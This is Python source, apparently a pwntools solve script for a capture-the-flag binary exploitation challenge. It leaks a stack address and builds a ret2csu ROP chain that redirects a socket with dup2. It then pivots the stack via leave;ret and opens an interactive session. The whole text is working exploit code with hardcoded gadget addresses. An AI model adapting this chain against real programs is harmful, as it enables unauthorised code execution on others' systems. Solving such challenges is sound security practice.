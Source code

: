 ```python

def ret2csu(rbx, rbp, r12, r13, r14, r15):
    csu_pop = 0x400e8a

    payload = flat(
        [
            csu_pop,
            rbx,
            rbp,
            r12,
            r13,
            r14,
            r15
        ]
    )

    return payload


def solve():

    io.recvuntil(b"spoken:")
    stack = int(io.recvline().strip(), 16)
    info("buf: %#x", stack)

    pop_rdi = 0x400e93 # pop rdi; ret;
    pop_rsi_r15 = 0x400e91 # pop rsi; pop r15; ret;
    pop_rbp = 0x400a28 # pop rbp; ret;
    leave_ret = 0x400b39 # leave; ret;
    csu_call = 0x400e70 
    offset = 256
    listen_fd = 4

    padding = [0xdeadbeef] * 7

    payload = flat(
        [
            ret2csu(0, 1, exe.got["dup2"], listen_fd, 1, 0xcafebabe),
            csu_call,
            *padding,
            pop_rbp,
            stack,
            exe.sym["pwn"]
        ]
    )

    payload = payload.ljust(offset, b".") + p64(stack - 8) + p64(leave_ret)
    io.sendafter(b"?", payload)

    io.interactive()


def main():
    
    init()
    solve()
    

if __name__ == '__main__':
    main()


```